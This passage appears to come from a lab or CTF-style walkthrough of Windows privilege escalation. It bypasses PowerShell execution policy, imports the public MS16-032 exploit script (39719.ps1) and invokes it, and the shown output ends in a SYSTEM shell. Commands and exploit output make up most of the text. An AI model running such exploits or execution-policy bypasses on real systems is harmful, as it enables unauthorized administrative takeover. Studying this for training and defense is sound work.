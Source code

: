 From here, let's run the PowerShell command of `powershell -ExecutionPolicy Bypass` which will allow us to execute 3rd party scripts.

---
```ps1
PS C:\Users\arm554\Desktop> powershell -ExecutionPolicy Bypass
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.
```

Once that's completed, let's import our exploit and invoke it!

```ps1
PS C:\Users\arm554\Desktop> Import-Module .\39719.ps1
PS C:\Users\arm554\Desktop> Invoke-MS16-032
         __ __ ___ ___   ___     ___ ___ ___
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]

[?] Operating system core count: 4
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1780

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 1776
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

PS C:\Users\arm554\Desktop>
```

If done correctly, you should get a CMD Prompt pop up with Admin Privileges!
